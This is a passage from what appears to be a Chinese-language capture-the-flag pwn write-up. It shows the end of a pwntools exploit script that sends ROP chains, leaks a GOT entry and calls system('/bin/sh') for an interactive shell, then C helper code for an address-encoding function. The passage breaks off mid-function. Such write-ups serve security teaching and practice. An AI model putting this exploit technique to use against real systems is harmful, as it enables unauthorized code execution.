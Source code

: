 ```python
        sleep(1)
        sl(io, rop_chain)
        sleep(1)
        if local:
            sl(io, flat(b"/bin/sh\0", system_addr))
        else:
            sl(io, flat(b"/bin/sh\0", system_addr-0xc000))
        io.interactive()

    else:
        # write got
        rop_chain = b'a'*0x20 + flat(
            fake_stack, tmp, # fp, lr
            fake_stack, 0x0400FD8, # fp2, lr2
            0, 0, # x19, x20
            got_puts, got_puts, # x21, x22
            got_puts, 0x100, # x23, x24
        )
        sleep(1)
        sl(io, rop_chain)
        sleep(1)
        puts_addr = rv(io, 3)
        print(puts_addr.hex())

res = debug()
```

其中mapping用来从编码后的地址查找编码前的地址, ~~因为太长我就删掉了~~. 使用如下程序生成:

```c
//test.c
#include <stdio.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <malloc.h>
#include <inttypes.h>
#include <assert.h>     

void hexdump(unsigned char* buf, size_t size) {
    int i,j;
    for (i = 0;i < size;i += 16)
    {
        printf("%08x:", i);
        for (j = i;j < size && j < i + 16;j++)
        {
            printf(" %02x", buf[j]);
        }
        puts("");
    }
}

uint64_t encode(int64_t a1){
  return a1 ^ (a1 << 7) ^ ((a1 ^ (uint64_t)(a1 << 7)) >> 11) ^ ((a1 ^ (a1 << 7) ^ ((a1 ^ (uint64_t)(a1 << 7)) >> 11)) << 31) ^ ((a1 ^ (a1 << 7) ^ ((a1 ^ (uint64_t)(a1 << 7)) >> 11) ^ ((a1 ^ (a1 << 7) ^ ((a1 ^ (uint64_t)(a1 << 7)) >> 11)) << 31)) >> 13);
}

int main(){
    int64_t a = 0x44010A9FC70042;
```